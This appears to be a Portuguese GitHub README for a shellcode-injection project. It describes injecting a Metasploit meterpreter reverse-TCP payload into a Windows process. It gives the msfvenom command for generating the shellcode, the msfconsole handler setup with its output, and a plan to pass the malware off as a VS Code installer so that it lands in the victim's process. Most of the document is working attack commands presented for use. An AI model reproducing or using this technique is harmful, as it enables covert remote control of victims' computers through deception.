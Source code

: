 # ShellCode Injection of an Reverse TCP exploit

## Passos de funcionamento
* Obter o controlo de um processo, ou criar um (como se pretende no ficheiro process_injection_paint.cpp);
* Alocar um buffer na memória do processo com as permissões necessárias;
* Escrever o conteúdo do shellcode no buffer alocado na memória do processo;
* Criar uma thread que correrá o que foi alocado e escrito no processo.

## Criar o ShellCode

Para criar o shell code foi usada a framework Metasploit. Com esta framework o shellcode é criado com apenas um comando:

```console
foo@bar:~$ msfvenom --platform windows --arch x64 -p windows/x64/meterpreter LHOST="o nosso IP" LPORT="porta de acesso" -f c --var-name=shellCode
```

## Iniciar o handler de metasploit
Vamos usar o metasploit como um servidor de Command & Control

```console
foo@bar:~$ msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost eth0
msf6 > set lport 1234
msf6 > run -j
```

### Resultado:

```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost eth0
lhost => eth0
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) >
[*] Started reverse TCP handler on 172.18.16.86:1234
```

## Quando a vitima já estabeleceu conexão com o server:

```console
msf6 exploit(multi/handler) > sessions -i 1
```
Depois podemos executar os comandos que quisermos até a conexão ser fechada.

## Exemplo de como um destes ataques podia ser realizado

Uma das possibilidades que nos surgiu para realizar um ataque deste tipo foi mascarar o virus como um instalador de um qualquer programa (p.e. vscode).

Ao ter a possibilidade de correr comandos na consola de windows de forma programatica o vscode seria instalado através do terminal.

Assim quando a vitima instalasse o vscode e este fosse aberto seria identificado o PID do mesmo por forma ao shellcode ser alocado no processo do mesmo.








